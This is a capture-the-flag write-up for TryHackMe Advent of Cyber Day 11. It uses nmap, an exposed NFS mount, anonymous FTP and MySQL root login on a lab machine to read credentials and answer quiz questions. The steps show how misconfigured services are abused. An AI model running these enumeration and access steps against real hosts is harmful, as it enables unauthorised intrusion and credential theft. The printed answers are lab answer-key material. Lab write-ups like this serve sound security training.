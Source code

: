# TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 11
## Reconnaissance
```bash
$ sudo nmap -sV -vv -p- 10.10.26.232
PORT      STATE SERVICE  REASON          VERSION
21/tcp    open  ftp      syn-ack ttl 252 vsftpd 3.0.2
22/tcp    open  ssh      syn-ack ttl 252 OpenSSH 7.4 (protocol 2.0)
111/tcp   open  rpcbind  syn-ack ttl 252 2-4 (RPC #100000)
2049/tcp  open  nfs_acl  syn-ack ttl 252 3 (RPC #100227)
3306/tcp  open  mysql    syn-ack ttl 252 MySQL 5.7.28
20048/tcp open  mountd   syn-ack ttl 252 1-3 (RPC #100005)
40603/tcp open  nlockmgr syn-ack ttl 252 1-4 (RPC #100021)
52881/tcp open  status   syn-ack ttl 252 1 (RPC #100024)
Service Info: OS: Unix
```
## What is the password inside the `creds.txt` file?
1. Mount the NFS drive to a local directory:
```bash
$ mkdir $(pwd)/nfs
$ sudo mount 10.10.26.232:/opt/files $(pwd)/nfs
```
2. Copy `creds.txt`:
```bash
$ cp nfs/creds.txt $(pwd)
$ sudo umount nfs
$ rmdir nfs
```
3. Read `creds.txt`:
```bash
$ cat creds.txt
the password is securepassword123
```
**Answer**: `securepassword123`
## What is the name of the file running on port 21?
1. Login to FTP anonymously:
```bash
$ ftp 10.10.26.232 
Connected to 10.10.26.232.
220 (vsFTPd 3.0.2)
Name: anonymous
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
1. Get `file.txt`:
```bash
ftp> binary
200 Switching to Binary mode.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
ftp> get file.txt
```

**Answer**: `file.txt`
## What is the password after enumerating the database?
1. From `file.txt`:
```
remember to wipe mysql:
root
ff912ABD*
```
2. Login to MySQL with username `root` and password `ff912ABD*`:
```bash
$ mysql -h 10.10.26.232 -u root -p
Enter password: ff912ABD*
```
3. Show databases and use the `data` database:
```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
MySQL [(none)]> use data;
```
4. show tables and select all data from the `USERS` table:
```sql
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
MySQL [data]> select * from USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
```

**Answer**: `bestpassword`